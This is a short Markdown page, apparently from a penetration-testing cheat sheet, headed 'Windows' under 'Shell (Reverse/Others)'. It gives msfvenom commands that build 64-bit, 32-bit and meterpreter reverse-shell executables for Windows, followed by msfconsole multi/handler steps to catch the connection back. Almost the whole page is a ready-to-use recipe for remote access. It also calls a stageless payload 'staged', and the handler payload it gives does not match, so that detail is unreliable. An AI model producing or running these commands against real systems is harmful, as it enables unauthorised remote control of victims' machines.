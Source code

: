 ```yaml
---
title: Windows
parent: Shell (Reverse/Others)
layout: default
nav_order: 1
---
```


64 bit:\
`msfvenom --platform Windows -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o win.exe`

32 bit:\
`msfvenom --platform Windows -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o win.exe`

If shell drops immediately, consider using a staged shell.

Staged:\
`msfvenom -p windows/x64/meterpreter_reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe`

Staged need to serve stage payload using msfvenom:\
`msfconsole -q`\
`use multi/handler`\
`set payload windows/x64/meterpreter/reverse_https`\
`set lhost IP`\
`set lport PORT`\
`exploit`
